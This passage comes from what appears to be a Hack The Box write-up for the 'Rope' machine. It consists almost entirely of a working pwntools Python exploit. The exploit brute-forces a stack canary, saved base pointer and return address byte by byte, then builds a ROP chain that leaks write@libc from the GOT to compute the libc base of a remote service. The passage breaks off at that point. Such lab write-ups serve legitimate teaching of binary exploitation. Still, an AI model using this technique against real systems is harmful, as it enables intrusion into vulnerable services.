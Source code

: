 ~~~~python
                response = io.recvuntil("Done.")
            except EOFError:
                pass
            finally:
                io.shutdown()
                io.close()
            if "Done." in response: # correct guess
                brute += pack(value, 8)
                print("[+] [%s] = %s" % (str(byte), hex(value)))
                break

    context.log_level = "info"

    if type != "stack":
    	brute += "\x00\x00"

    brute = u64(brute)
    info("%s is %s" % (desc, hex(brute)))
    return brute

# front matter
host = "10.10.10.148"
port = 31337

# brute-force stack canary
junk            = 'A' * 56
stack_canary    = brute(junk, host, port, type="stack")
base_ptr        = brute(junk + p64(stack_canary), host, port, type="base")
ret_addr        = brute(junk + p64(stack_canary) + p64(base_ptr), host, port, type="retaddr")

# load target
contact   = ELF('./contact')
contact.address = ret_addr - 0x1562 # offset to return address

# ROPgadget --binary contact
pop_rdi_ret     = contact.address + 0x164b
pop_rdx_ret     = contact.address + 0x1265
pop_rsi_pop_ret = contact.address + 0x1649
ret             = contact.address + 0x1016
skip            = 0xdeadbeef

# leak write@libc address in GOT
payload  = ''
payload += junk
payload += p64(stack_canary)
payload += p64(0)
payload += p64(pop_rdi_ret)
payload += p64(4)
payload += p64(pop_rsi_pop_ret)
payload += p64(contact.got["write"])
payload += p64(skip)
payload += p64(pop_rdx_ret)
payload += p64(16)
payload += p64(contact.plt["write"])

r = remote(host, port)
r.recvuntil("admin:\n")
r.send(payload)

# libc base address
# offset to write@libc. change for other versions
# base = u64(r.recv(8)) - 0xea4f0  # my libc
base = u64(r.recv(8)) - 0x110140  # rope's libc
~~~~

[1]: https://www.hackthebox.eu/home/machines/profile/200
[2]: https://www.hackthebox.eu/home/users/profile/13243
[3]: https://www.hackthebox.eu/